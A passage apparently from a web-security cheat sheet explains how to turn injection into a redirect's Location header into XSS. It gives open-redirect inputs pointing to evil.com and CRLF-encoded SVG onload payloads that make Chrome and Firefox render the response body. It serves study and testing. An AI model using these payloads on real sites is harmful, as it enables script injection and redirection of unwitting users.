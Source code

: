 One common situation is when your injection point is the value of a `Location:` header in a 30X redirect. The problem is that the browser will normally just redirect to the given location _without rendering the body_. This prevents us from directly injecting a `<script>` tag, for example.

<pre class="language-http" data-title="Response"><code class="lang-http">HTTP/1.1 302 Found
Content-Type: text/html
<strong>Location: [INPUT]
</strong></code></pre>

First of all, an open redirect may be possible if the URL isn't validated strictly. See the following examples:

```http
Location: [INPUT]                   -> http://evil.com
Location: /[INPUT]                  -> //evil.com or /\evil.com
Location: http://example.com[INPUT] -> http://example.com@evil.com
Location: /any/path/[INPUT]         -> ../../dangerous/path
```

This isn't nearly as impactful as XSS though, but fortunately there are some tricks in both Chrome and Firefox that cause it to **ignore the redirect and show the body instead**. Chrome is the hardest, but simplest to understand. If the `Location:` is empty it will be ignored, otherwise it won't.

{% code title="Chrome" %}
```http
Location: 
```
{% endcode %}

[Some](https://www.gremwell.com/firefox-xss-302) [writeups](https://www.hahwul.com/2020/10/03/forcing-http-redirect-xss/) explain that on Firefox there is a more interesting trick, using the `resource://` protocol:

{% code title="Firefox" %}
```http
Location: resource://anything
```
{% endcode %}

With the above payloads, you can force the browser to stop redirecting and show the content instead. With the ability to insert newlines in the response you can give it a HTML body with XSS:

**Chrome** [**Payload**](https://gchq.github.io/CyberChef/#recipe=URL_Encode\(false\)\&input=DQoNCjxzdmcgb25sb2FkPWFsZXJ0KCk%2B\&ieol=CRLF): `%0D%0A%0D%0A%3Csvg%20onload=alert()%3E`

```http
Location: 

<svg onload=alert()>
```

**Firefox** [**Payload**](https://gchq.github.io/CyberChef/#recipe=URL_Encode\(false\)\&input=cmVzb3VyY2U6Ly9hbnl0aGluZw0KDQo8c3ZnIG9ubG9hZD1hbGVydCgpPg\&ieol=CRLF): `resource://anything%0D%0A%0D%0A%3Csvg%20onload=alert()%3E`

```http
Location: resource://anything

<svg onload=alert()>
```
